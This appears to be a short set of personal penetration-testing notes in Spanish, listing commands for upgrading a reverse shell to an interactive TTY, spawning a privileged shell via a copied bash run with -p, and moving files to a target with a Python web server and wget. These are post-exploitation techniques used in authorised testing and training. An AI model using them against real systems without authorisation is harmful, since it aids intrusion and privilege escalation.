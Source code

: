 [[Pivoting con Windows y Netcat]]

# Binarios
```
/usr/share/windows-resources/binaries/
```

# TTY Interactiva
```Bash
script /dev/null -c bash
CNTRL+Z
stty raw -echo; fg
	reset
	xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 123
```

# Obtención de shell copiando binario
```Bash
cp /bin/bash /dev/shm
chmod +x /dev/shm/bash
/dev/shm/bash -p
id
ps -p $$
```

# Transferencia de archivos
## **Levantar servidor Python**
### **Python2**
```Bash
python -m SimpleHTTPServer <port>
```
### **Python 3**
```Bash
python3 -m http.server <port>
```

## **Descarga de archivos**
### **Linux**
```Bash
wget http://<target>/<port>
```

